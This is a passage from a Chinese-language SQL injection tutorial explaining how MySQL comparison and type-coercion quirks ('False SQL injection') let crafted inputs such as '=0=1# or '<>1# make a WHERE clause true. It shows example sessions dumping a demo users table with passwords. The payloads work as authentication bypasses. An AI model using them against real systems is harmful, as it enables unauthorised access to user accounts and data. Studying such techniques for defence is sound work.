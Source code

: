 你不必只使用单一的数字。你可以像下面一样使用两个数字攻击。

```
1'<99# 
```

Comparison operation 0=1 will be 0, the following operation result is true because of id=''=0(0=1). 比较操作“0=1”的结果将会是 0，又因为 id=''=0，所以以下的操作结果是真。

```
'=0=1# 
```

此外，还可以使用一些比较动作能使得两边的值相等。

```
'<=>0# 
```

像这样，如果你使用比较操作，你可以用额外的方式进行攻击。

```
'=0=1=1=1=1=1#
'=1<>1#
'<>1#
1'<>99999#
'!=2!=3!=4# 
```

## 0x02 不同的 SQL 操作

* * *

现在，你将开始理解 False SQL injection。以下为 MySQ 操作，不是攻击语句。

```
mySQL> select * from users;
+-----+-----------+----------+
| num | id        | password |
+-----+-----------+----------+
|   1 | admin     | ad1234   |
|   2 | wh1ant    | wh1234   |
|   3 | secuholic | se1234   |
+-----+-----------+----------+
3 rows in set (0.01 sec) 
```

毫无疑问，它显示了所有表中的返回内容。 以下是当你不输入任何值在 id 字段时的返回内容。

```
mySQL> select * from users where id='';
Empty set (0.00 sec) 
```

因为在 id 字段没有任何字符串，所以不会有返回结果。 事实上，从这里我已经看到，如果在 MySQL 字符串字段为 0 的情况下，返回结果始终为真。根据这个现象，以下语句结果为真。

```
mySQL> select * from users where id=0;
+-----+-----------+----------+
| num | id        | password |
+-----+-----------+----------+
|   1 | admin     | ad1234   |
|   2 | wh1ant    | wh1234   |
|   3 | secuholic | se1234   |
+-----+-----------+----------+
3 rows in set (0.00 sec) 
```
